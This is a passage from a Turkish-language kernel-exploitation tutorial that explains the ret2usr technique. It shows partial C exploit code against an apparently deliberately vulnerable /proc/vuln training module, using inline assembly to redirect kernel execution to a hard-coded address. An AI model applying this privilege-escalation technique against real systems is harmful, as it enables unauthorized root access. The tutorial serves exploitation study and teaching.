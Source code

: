 # ret2usr
Root exploitimiz için popüler bir saldırı yöntemi olan `ret2usr`ı kullanıyor olacağız.

Bir önceki exploitimizde doğrudan stack'deki dönüş adresini kerneldeki bir fonksiyona 
işaret edicek şekilde ayarladık ve bu şekilde modülün akışını yönlendirmeyi başardık.

Ancak bu istediğimiz gibi kernelin akışını kontrol etmemizi sağlamıyor. İşte burda 
`ret2usr` yöntemi devreye giriyor.

Hatırlarsanız kernel'in tüm user-space belleğine erişimi var, o halde exploitimizin içinde 
olan bir fonksiyonun adresini dönüş adresi olarak ayarlıyarak kernel'in istediğimiz 
kodu çalıştırmasını sağlayabiliriz. Zaten metodun adı da burdan geliyor, `ret2usr` yani 
return-to-user, kerneli user-space'de olan bir adrese döndürüyoruz.

Hadi bunu bir örnek ile görelim:
```c
#include <unistd.h>
#include <stdlib.h>
#include <string.h>
#include <stdio.h>
#include <fcntl.h>

#define DEVICE "/proc/vuln"

void call_cant_get_here()
{

    // burda doğrudan assembly çalıştıracağız
    // unutmayın bu kod kernelde çalışcak, bu fonksiyona 
    // user-space'de olan çağrılar ekleyemeyiz
    __asm__(
    
    // normalde AT&T syntaxi olan syntaximizi 
    // daha rahat okunabilir olduğundan intel syntax'ine çekiyoruz
    ".intel_syntax noprefix;"

    // rax registerına movabs ile cant_get_here fonksiyonun adresini 
    // yüklüyoruz, movabs mov'dan farklı olarak rax'a 64 bit bir 
    // değer yüklüyor, bu da bizim 8 byte adresimiz için tam istediğimiz şey
    "movabs rax, 0xffffffff81094a50;" //cant_get_here

    // şimdi rax'a yüklediğimiz adrese atlayabiliriz
    "call rax;"

    // değiştirdiğimiz syntaxi eski haline geri döndürüyoruz 
    // bunun sebebi kodun geri kalanaın AT&T syntaxinde oluşturulucak olması
    ".att_syntax;"

    );

}

int main()
{

    int fd = open(DEVICE, O_RDWR);

    unsigned long w[3];
    unsigned long r[5];

    bzero(w, sizeof(w));
    bzero(r, sizeof(r));
    
    read(fd, r, sizeof(r));
```